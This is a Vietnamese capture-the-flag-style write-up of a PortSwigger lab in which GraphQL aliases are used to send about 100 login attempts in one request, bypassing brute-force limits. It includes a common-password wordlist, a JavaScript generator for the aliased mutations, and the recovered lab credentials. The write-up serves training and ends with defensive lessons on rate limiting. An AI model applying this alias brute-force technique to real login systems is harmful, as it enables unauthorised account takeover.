




# Write-up: Bypassing GraphQL brute force protections

### Tổng quan
Khai thác lỗ hổng trong cơ chế bảo vệ chống brute force của API GraphQL, nơi endpoint `/graphql/v1` cho phép gửi nhiều mutation `login` trong một request thông qua alias, bỏ qua giới hạn số lần thử. Bằng cách sử dụng JavaScript để tạo alias cho danh sách mật khẩu và gửi qua InQL, kẻ tấn công tìm được mật khẩu của tài khoản `carlos`, đăng nhập và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng thiếu bảo vệ chống brute force trong endpoint GraphQL `/graphql/v1`, sử dụng alias để thử nhiều mật khẩu trong một request, tìm mật khẩu của `carlos`, đăng nhập và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser
- InQL (Burp Suite Extension)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `carlos` và mật khẩu bất kỳ, bắt request trong Burp Proxy:  
    
- **Phân tích**:  
  - Endpoint `/graphql/v1` xử lý mutation `login` với tham số `username` và `password`.  
  - Phản hồi chứa `token` và `success`, cho biết đăng nhập thành công hay không.  
  - Không thấy giới hạn số lần thử, nhưng có thể server giới hạn số request. Sử dụng alias trong GraphQL để gửi nhiều mutation trong một request:  
      

2. **Tạo payload brute force**  
- Sử dụng danh sách mật khẩu từ PortSwigger:  
  ```
  123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow
  ```  
- Mở DevTools (F12) trong Firefox, chạy script JavaScript để tạo alias cho mutation `login`:  
  ```javascript
  copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
  bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
        token
        success
  }
    `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
  ```  
    
- Kết quả: Script tạo query GraphQL với nhiều alias (mỗi alias là một mutation `login` với mật khẩu khác nhau):  
  ```
  bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
  }
  bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
  }
  ...
  bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
  }
  ```  
- Copy query vào clipboard:  

3. **Khai thác (Exploitation)**  
- Sử dụng InQL (Burp Suite Extension) để gửi request GraphQL với query chứa alias:  
- Kết quả: Phản hồi cho thấy alias `bruteforce27` (mật khẩu `7777777`) trả về `success: true` và một `token`: 
- **Phân tích**: Mật khẩu của `carlos` là `7777777`:  
    

4. **Đăng nhập và hoàn thành lab**  
- Sử dụng thông tin đăng nhập `carlos:7777777` để đăng nhập:  
  ```
  POST /login HTTP/2
  Host: 0abe0092031c7849811fa2d200380047.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  username=carlos&password=7777777
  ```  
- Kết quả: Đăng nhập thành công, nhận cookie `session` mới:  
- Truy cập `/my-account` hoặc endpoint liên quan để xác nhận hoàn thành lab:  
    

- **Ý tưởng payload**:  
  - Sử dụng alias trong query GraphQL để gửi nhiều mutation `login` trong một request, bypass cơ chế chống brute force, tìm mật khẩu `7777777` cho tài khoản `carlos`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng thiếu bảo vệ chống brute force trong API GraphQL, sử dụng alias để gửi nhiều mutation `login` trong một request, bypass giới hạn số lần thử.  
- Nhận thức tầm quan trọng của việc triển khai giới hạn số lần thử (rate limiting) và kiểm tra số lượng alias trong query GraphQL để ngăn chặn các cuộc tấn công brute force.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng thiếu bảo vệ chống brute force trong API GraphQL, nhấn mạnh tầm quan trọng của việc triển khai rate limiting và kiểm tra query để ngăn chặn lạm dụng alias. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*